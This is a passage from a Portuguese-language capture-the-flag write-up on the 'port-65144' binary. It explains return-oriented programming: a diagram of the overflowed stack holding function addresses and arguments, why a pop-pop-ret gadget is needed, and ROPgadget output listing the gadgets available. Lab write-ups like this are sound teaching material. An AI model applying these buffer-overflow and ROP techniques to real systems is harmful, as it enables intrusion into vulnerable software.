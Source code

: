 Como o texto diz "Gotcha func1". Podemos ver que esta função altera o valor da variável no `.bss` que é importante para depois. Agora acho que podemos fazer o mesmo para "gotcha func2", mas agora temos que usar uma coisa chamada gadgets.

### Gadgets

Gadgets são instruções que nos ajudam a controlar o fluxo do programa, neste caso precisamos de um gadget que execute um `pop; pop; ret;` por quê?

Nossa pilha é assim neste momento:

```raw
+++++++++++
higest addr
+==STACK==+
+++++++++++
+++++++++++
+++++++++++
+++++++++++
+         +
+         +
+         +   300                         FUNCTION 1 ARG2
+         +   0x9c                        FUNCTION 1 ARG1
+         +   JUNK                        JUNK FOR NOW
+   EIP   +   0x8049256                   FUNCTION 1 ADDREESS
+   EBP   +   AAAA                        EBP
+   VAR1  +   AAAAAAAAAAAAAAAAAAA...      BUFFER
+         +
+         +
+   ...   +
+   ...   +
+   ...   +
+   ESP   +
+         +
+++++++++++
lowest addr
+++++++++++
```

OK, quando a função 1 retornar, onde colocarmos o `JUNK` será nosso próximo` EIP`, mas como temos que passar argumentos para a próxima função, precisamos que o gadget retire os argumentos atuais da pilha para dar lugar a o próximo `EIP` e os argumentos. Portanto, temos que remover o arg1 e o arg2.

Vamos lembrar como é a segunda função e como obteremos o gadget.

<center><img src="post-assets/port-65144-ghidra-3.png" width="662" alt="ghidra" /></center>

Esta função recebe 3 argumentos, e os valores devem ser 1o argumento = `0` (zero), 2o e 3o argumentos = `0xd`

Para nos ajudar, vou instalar <a href="https://github.com/JonathanSalwan/ROPgadget" target="_blank">ROPGadget</a> que nos mostrará quais são os gadgets disponíveis.

```bash
reisraff@3dbbde46a935:~/workdir/challs/port-65144$ python3 ROPgadget/ROPgadget.py --binary port-65144 | grep pop
0x080494cd : add byte ptr [eax], al ; add esp, 8 ; pop ebx ; ret
0x0804949d : add esp, 0xc ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x0804901f : add esp, 8 ; pop ebx ; ret
0x0804942e : clc ; pop ecx ; pop ebx ; pop ebp ; lea esp, [ecx - 4] ; ret
0x08049294 : inc dword ptr [ebx - 0x746fef3c] ; pop ebp ; cld ; leave ; ret
0x0804949c : jecxz 0x8049429 ; les ecx, ptr [ebx + ebx*2] ; pop esi ; pop edi ; pop ebp ; ret
0x0804949b : jne 0x8049489 ; add esp, 0xc ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x0804942c : lea esp, [ebp - 8] ; pop ecx ; pop ebx ; pop ebp ; lea esp, [ecx - 4] ; ret
0x08049020 : les ecx, ptr [eax] ; pop ebx ; ret
0x0804949e : les ecx, ptr [ebx + ebx*2] ; pop esi ; pop edi ; pop ebp ; ret
0x0804949f : or al, 0x5b ; pop esi ; pop edi ; pop ebp ; ret
```